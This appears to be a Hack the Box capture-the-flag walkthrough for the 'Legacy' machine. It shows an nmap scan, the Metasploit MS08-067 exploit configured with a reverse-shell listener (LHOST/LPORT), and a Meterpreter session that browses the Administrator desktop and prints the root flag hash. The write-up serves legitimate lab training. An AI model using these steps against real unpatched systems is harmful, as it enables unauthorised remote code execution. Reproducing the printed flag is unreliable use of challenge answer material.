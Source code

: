 ```yaml
---
title: Legacy - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Legacy.png
---
```

---
title: Legacy - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Legacy.png
---
---
title: 2024-10-12-Legacy - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Legacy.png
---
![Image](/assets/Legacy.png)

Legacy is a very easy machine emphasizing the importance of keeping an OS up to date.
### Service Enumeration
Our script: `nmap -sV -sC --open -p- 10.10.10.4`

Our scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 21:28 EDT
Nmap scan report for 10.10.10.4
Host is up (0.14s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:2f:34 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY
|   Workgroup: HTB
|_  System time: 2024-09-08T06:27:05+03:00
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.25 seconds

```

We gather a hostname and see we're running Windows XP 2000. Upon research, we learn about a remote code execution vulnerability disclosed in 2008, MS08-067.

### Initial Access
We can search metasploit for our module, using `search MS08_067`. We'll see the only valid option being listed as the first. We'll equip the exploit: `use exploit/windows/smb/ms08_067_netapi`, and we'll set our parameters for the attack.

```
RHOSTS: 10.10.10.4
RPORT: 445
LHOST: 10.0.2.15
LPORT: 4444
```

Now, we'll execute.

![Image](/assets/Screenshot 2024-09-02 at 9.54.17 PM.png)

### Post Exploitation

Once in, we can root around. I've included the entire code block below to show the raw data!

```
meterpreter > cd ../
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2017-03-16 01:30:44 -0400  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2017-03-16 01:30:44 -0400  CONFIG.SYS
040777/rwxrwxrwx  0       dir   2017-03-16 02:07:20 -0400  Documents and Settings
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  IO.SYS
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-13 16:13:04 -0400  NTDETECT.COM
040555/r-xr-xr-x  0       dir   2017-12-29 15:41:18 -0500  Program Files
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:59 -0400  System Volume Information
040777/rwxrwxrwx  0       dir   2022-05-18 08:10:06 -0400  WINDOWS
100666/rw-rw-rw-  211     fil   2017-03-16 01:26:58 -0400  boot.ini
100444/r--r--r--  250048  fil   2008-04-13 18:01:44 -0400  ntldr
000000/---------  0       fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cd Documents\ and\ Settings\
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-03-16 02:07:21 -0400  Administrator
040777/rwxrwxrwx  0     dir   2017-03-16 01:29:48 -0400  All Users
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:37 -0400  Default User
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:43 -0400  NetworkService
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:42 -0400  john

meterpreter > cd Administrator\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:29 -0400  Application Data
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:27 -0400  Cookies
040777/rwxrwxrwx  0       dir   2017-03-16 02:18:27 -0400  Desktop
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:32 -0400  Favorites
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  Local Settings
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  My Documents
100666/rw-rw-rw-  786432  fil   2022-05-28 06:28:03 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2024-09-07 23:51:00 -0400  NTUSER.DAT.LOG
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  NetHood
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  PrintHood
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  Recent
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:24 -0400  SendTo
040555/r-xr-xr-x  0       dir   2017-03-16 01:20:48 -0400  Start Menu
040777/rwxrwxrwx  0       dir   2017-03-16 01:28:41 -0400  Templates
100666/rw-rw-rw-  178     fil   2022-05-28 06:28:03 -0400  ntuser.ini

meterpreter > cd Desktop\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:50 -0400  root.txt

meterpreter > cat root.txt 
993442d258b0e0ec917cae9e695d5713
```
#easy #windows #msfconsole 
